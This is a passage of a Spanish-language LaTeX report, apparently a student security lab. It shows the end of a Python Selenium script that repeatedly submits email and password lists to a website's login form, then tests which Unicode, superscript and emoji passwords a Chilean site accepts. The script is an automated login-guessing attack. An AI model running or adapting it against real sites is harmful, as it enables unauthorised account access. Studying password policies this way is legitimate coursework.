    time.sleep(2)
    driver.find_element(By.XPATH,'//*[@id="cookie-alert"]/div/div[2]/button').click()
    i = 0
    time.sleep(2)
    
    for contraseña in contraseñas:
        for correo in correos:

            if i == 0:
                email = driver.find_element(By.ID, 'UserName')
                email.clear()
                email.send_keys(correo)
                time.sleep(5)
                i = i + 1 
            
            passw = driver.find_element(By.ID,"Password")
            passw.clear()
            passw.send_keys(contraseña)
            time.sleep(5)
            
            driver.find_element(By.ID, "login-submit").click()
            time.sleep(2)
    driver.close()
\end{lstlisting}

\subsection{Hito IV}

\subsubsection{Chile}

\textbf{1.-¿Cuál es el largo (L) mínimo y máximo de la contraseña a utilizar? ¿Cuál es la máxima base (W) que permite utilizar el sitio? }
En esta preunta, se probaron diferentes tipos de bases, para ver cual era la capacidad de la pagina. Todas las veces que se probó la contraseña
se respetó los requerimientos de la pagina que son poseer: 

\begin{itemize}
    \item Mayusculas.
    \item Minusculas.
    \item Numero.
    \item Al menos 8 caracteres. 
\end{itemize}
Primero, se probó con Unicode, con la siguiente contraseña, la cual fue aceptada de manera exitosa tanto para realizar el cambio como para 
iniciar sesión.
\begin{itemize}
    \item U+2029U+2029
\end{itemize}

\begin{figure}
    \centering
    
\includegraphics[width=15cm]{unicodecl.png}
\end{figure}
\\\\
El sitio web, soportó Superscripts and subscripts,al menos para cambiar la contraseña, en donde se probó la contraseña 
\begin{itemize}
    \item $₁ⁱₕ₉ₘ₊⁼⁽ₔ⁰aA$
\end{itemize}
\begin{figure}
    \centering
    
\includegraphics[width=15cm]{superscriptscl.png}
\end{figure}

Se puede observar como se logró cambiar la contraseña de manera exitosa, conteniendo esos caracteres, pero al momento de registrar, no existe una respuesta. Es decir, que
si se posee una contraseña compuesta por superscripts el inicio de sesion no será permitido, ya que no lo soporta, pero si lo admite. Razón por la cual, se concluye que no
es aceptada esta base.
\\\
De igual manera, se probó con el abecedario de emojis, en donde se probo la siguiente contraseña
\begin{itemize}
    \item 🌝💓😢🙉aA12
\end{itemize}

Esta fue soportada para hacer el cambio de contraseña
\begin{figure}
    \centering
    
\includegraphics[width=15cm]{emojiscl.png}
\end{figure}

\bibitem{Definicion SCADA} 
Definicion SCADA,
\\\url{https://www.redeszone.net/2017/01/05/conoce-este-motor-busqueda-ciberespacio-podras-localizar-host-facilmente/}
\\



\end{document}
